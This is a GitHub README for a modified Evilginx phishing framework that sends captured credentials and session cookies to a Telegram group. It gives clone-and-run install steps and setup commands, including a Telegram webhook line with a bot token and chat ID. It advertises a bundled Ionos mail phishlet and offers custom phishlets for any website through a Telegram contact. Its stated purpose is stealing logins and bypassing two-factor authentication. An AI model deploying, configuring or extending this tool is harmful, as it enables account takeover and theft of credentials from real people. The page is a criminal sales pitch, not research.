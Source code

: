 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Evilginx 3.4.0 - Modified by @dark_logger








# NEW VERSION AVAILABLE
https://github.com/EvilHoster/EvilGinx2-3.4.1-Modification
# NEW VERSION





# NEW VERSION AVAILABLE
https://github.com/EvilHoster/EvilGinx2-3.4.1-Modification
# NEW VERSION













This modified version can send logs to your telegram group chat.
Inside this modified version i have added free Ionos mail phishlet as proof of high quality product i have nothing to hide.
Incase u want more phishlets let me know we can do any website u want without any upfront payments.
https://t.me/dark_logger

**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


This version Google / Gsuite Cookie Interception Template/Phishlet In Action.
https://vimeo.com/931409763

Alternative video url:
https://www.flexclip.com/editor/app?id=9e89b4e3509603d00d53064b8058bcd1


How to install ?

On Ubuntu:

1. git clone https://github.com/EvilHoster/evilginx-3.4.0-telegram-modification
2. cd evilginx-3.4.0-telegram-modification
3. cd build
4. chmod +rwx evilginx
5. ./evilginx -p ../phishlets/

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}


6.config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y/-15604540645

7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y is a Token from Bot Father.
-15604540645 is a Chat ID inside your group.

Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.







## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.

